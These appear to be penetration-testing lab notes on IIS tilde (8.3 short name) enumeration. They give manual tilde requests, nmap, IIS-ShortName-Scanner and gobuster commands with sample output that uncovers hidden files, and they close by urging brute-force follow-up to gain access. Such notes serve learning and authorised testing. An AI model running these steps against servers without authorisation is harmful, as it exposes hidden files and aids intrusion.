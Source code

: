 ## IIS Tilde Enumeration (8.3 Short Name Disclosure)
#### 1. Overview

IIS Tilde Enumeration is used to discover hidden files or directories on IIS servers that use 8.3 short file name format (filename limited to 8 characters + `~n` + 3-character extension). This technique takes advantage of how Microsoft IIS handles legacy short names, enabling access to unintended or protected resources.
#### 2. How 8.3 Naming Works

- Windows automatically generates short names (8.3 format) for files/directories.    
- Format: `FILENAME~1.EXT`
- Useful for backwards compatibility but introduces an information disclosure vulnerability.

Example short names:

- `SecretDocuments` → `SECRE~1`    
- `somefile.txt` → `SOMEFI~1.TXT`
- `somefile1.txt` → `SOMEFI~2.TXT`
#### 3. Manual Tilde Enumeration

Step-by-step:

1. Request single character guesses:    

```
http://example.com/~a
http://example.com/~b
...
```

2. Based on HTTP response (`200 OK`), continue refining:

```
http://example.com/~se
http://example.com/~sec
...
```

Eventually:

```
http://example.com/secret~1/somefi~1.txt
```

These can reveal full paths and filenames even when not directly linked on the site.
#### 4. Environment Recon with Nmap

```bash
nmap -p- -sV -sC --open 10.129.224.91
```

Sample Output:

```
80/tcp open  http Microsoft IIS httpd 7.5
```

IIS 7.5 is vulnerable to short name enumeration attacks.
#### 5. Tool: IIS-ShortName-Scanner

Source: GitHub → `iis-shortname-scanner.jar`

Requirements:

- Oracle Java    
- No proxy needed (press Enter when prompted)

Usage:

```bash
java -jar iis_shortname_scanner.jar 0 5 http://<TARGET>/
```

Sample Output:

```
Vulnerable!
Identified directories:
  - ASPNET~1
  - UPLOAD~1
Identified files:
  - CSASPX~1.CS
  - TRANSF~1.ASP
```

Targeting `TRANSF~1.ASP` for filename brute-forcing (direct access blocked).
#### 6. Custom Wordlist for Gobuster

Use `egrep + sed` to generate targeted wordlist:

```bash
egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt
```

Explanation:

- `egrep -r ^transf`: Recursively look for words starting with "transf"    
- `sed 's/^[^:]*://'`: Remove filename prefixes from wordlist entries
- Output saved to `/tmp/list.txt`
#### 7. Brute-Force the Full Filename with Gobuster

```bash
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```

Options:

- `-x .aspx,.asp`: Appends these extensions to each word    
- `-w /tmp/list.txt`: Custom wordlist from previous step

Sample Output:

```
/transfer.aspx        (Status: 200) [Size: 941]
```

Filename transfer.aspx is discovered corresponding to TRANSF~1.ASP
### Summary

| Technique             | Purpose                                       |
| --------------------- | --------------------------------------------- |
| Manual Tilde Requests | Fingerprint short file/dir names              |
| Nmap                  | Detect vulnerable IIS version (7.5 and below) |
| IIS-ShortName-Scanner | Automate discovery of 8.3 short names         |
| Gobuster + Wordlist   | Brute-force full filenames from short names   |

IIS Tilde Enumeration is still relevant in legacy environments where 8.3 naming is enabled and IIS hasn’t been hardened. Always follow up with brute-force attacks after identifying short names to fully recover actual paths and gain access.
# Tags
> #Exploitation #Application-Enum #IIS-Tilde #Windows